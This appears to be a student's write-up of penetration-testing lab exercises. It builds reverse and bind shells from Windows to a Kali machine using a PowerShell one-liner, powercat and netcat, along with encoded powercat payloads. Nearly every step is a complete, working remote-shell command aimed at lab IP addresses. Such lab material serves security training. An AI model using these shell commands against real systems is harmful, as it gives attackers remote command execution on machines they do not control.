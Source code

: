 ### 4.3.8.1 Exercises
#### 1. Use PowerShell and powercat to create a reverse shell from your Windows system to your Kali machine.

- Powershell:
    - Windows:

      ```powershell
      powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
      ```

    - Linux:

      ```bash
      sudo nc -lnvp 443
      ```
    
    - Output
      ![image-20200607193839345](.4.3.8.1.assets/image-20200607193839345.png)

- powercat:

  - Windows:

    ```powershell
    . .\powercat.ps1
    powercat -c 192.168.116.219 -p 443 -e cmd.exe
    ```
    
  - Linux:
    
    ```bash
    sudo nc -lnvp 443
    ```
    
  - Output:
    ![image-20200607194628655](.4.3.8.1.assets/image-20200607194628655.png)

#### 2. Use PowerShell and powercat to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use powercat to connect to it locally?

There were two Firewall rules that explicitly blocked windows PowerShell, so I had to disable them for this to work.

- PowerShell

  - Windows:

    ```powershell
    powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
    ```

  - Linux: 

    ```bash
    nc -nv 192.168.216.10 443
    ```

  - Output:
    ![image-20200607202803257](.4.3.8.1.assets/image-20200607202803257.png)

- powercat

  - Windows:

    ```powershell
    . .\powercat.ps1
    powercat -l -p 4444 -e cmd.exe
    ```
    
  - Linux:
  
    ```bash
    nc -nv 192.168.216.10 4444
    ```
  
  - Output:
    ![image-20200607202419694](.4.3.8.1.assets/image-20200607202419694.png)
  
- Local connection (powercat)
  
  - Windows Bind Shell:
  
    ```powershell
    . .\powercat.ps1
    powercat -l -p 4444 -e cmd.exe -v
    ```
  
  - Windows Client Connection
  
    ```powershell
    . .\powercat.ps1
    powercat -c 127.0.0.1 -p 4444
    ```
  
  - Output:
    It took a LOT of ENTER presses to make things move along, but it worked.
    ![image-20200607205229048](.4.3.8.1.assets/image-20200607205229048.png)
  
    ![image-20200607205200640](.4.3.8.1.assets/image-20200607205200640.png)

#### 3. Use powercat to generate an encoded payload and then have it executed through powershell. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.

- Reverse Shell

  - Linux netcat listener:

    ```bash
    sudo nc -lvnp 443
    ```

  - Windows: Generate Encoded Payload

    ```powershell
    powercat -c 192.168.119.216 -p 443 -e cmd.exe -ge
    ```

    ![image-20200607220406194](.4.3.8.1.assets/image-20200607220406194.png)

  - Windows: Execute Payload

    ```powershell
    powershell -E <PAYLOAD>
    ```

    ![image-20200607220649483](.4.3.8.1.assets/image-20200607220649483.png)

  - Output:
    ![image-20200607220730076](.4.3.8.1.assets/image-20200607220730076.png)

- Bind Shell

  - Windows: Generate Encoded Payload
  
    ```powershell
    powercat -l -p 443 -e cmd.exe -ge
    ```
  
    ![image-20200607220945693](.4.3.8.1.assets/image-20200607220945693.png)
  
  - Execute Payload
  
    ```powershell
    powershell -E <PAYLOAD>
    ```
  
    ![image-20200607221107683](.4.3.8.1.assets/image-20200607221107683.png)
  
  - Linux Connection:
  
    ```bash
    nc -nv 192.168.216.10
    ```
    
    ![image-20200607221211938](.4.3.8.1.assets/image-20200607221211938.png)
